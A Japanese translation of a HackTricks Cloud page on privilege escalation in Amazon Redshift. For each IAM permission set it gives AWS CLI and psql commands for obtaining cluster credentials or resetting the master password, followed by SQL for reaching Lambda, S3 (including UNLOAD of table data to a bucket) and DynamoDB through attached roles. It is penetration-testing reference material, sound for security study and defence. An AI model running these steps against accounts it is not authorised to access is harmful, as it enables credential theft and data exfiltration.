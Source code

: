 # AWS - Redshift Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## Redshift

RDSについての詳細は以下を参照してください:

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

これらの権限を持っていると、**すべてのクラスターの情報**（名前とクラスターユーザー名を含む）を取得し、それにアクセスするための**クレデンシャルを取得**することができます：
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**潜在的な影響：** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

これらの権限を持っていると、**すべてのクラスターの情報**を取得し、それにアクセスするための**認証情報を取得**することができます。\
postgresユーザーは、認証情報を取得するために使用された**IAMアイデンティティの権限**を持つことに注意してください。
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**潜在的な影響：** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cliから内部のpostgres（redshit）ユーザーの**マスターパスワードを変更する**ことが可能です（必要な権限だと思いますが、まだテストはしていません）：
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**潜在的な影響：** データベース内の機密情報を見つける。

## 外部サービスへのアクセス

{% hint style="warning" %}
以下のリソースにアクセスするには、**使用するロールを指定する必要があります**。Redshiftクラスターには、**ARNを知っていれば使用できるAWSロールのリストが割り当てられている**か、または単に"**default**"を設定して割り当てられたデフォルトのロールを使用することができます。

さらに、[**ここで説明されているように**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html)、Redshiftはロールを連結して（最初のロールが2番目のロールを引き受けることができる限り）さらなるアクセスを得ることも可能ですが、**カンマ**で**区切る**だけです：`iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html)で説明されているように、次のようなもので**redshiftからlambda関数を呼び出す**ことが可能です：
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)に説明されているように、**S3バケットに読み書きすることが可能です**：
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) に説明されているように、**dynamodbからデータを取得する**ことが可能です：
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
データを提供するAmazon DynamoDBテーブルは、[REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region)オプションを使用してAmazon DynamoDBテーブルが位置するAWSリージョンを指定しない限り、クラスタと同じAWSリージョンに作成する必要があります。
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)を確認してください。

## 参考文献

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>
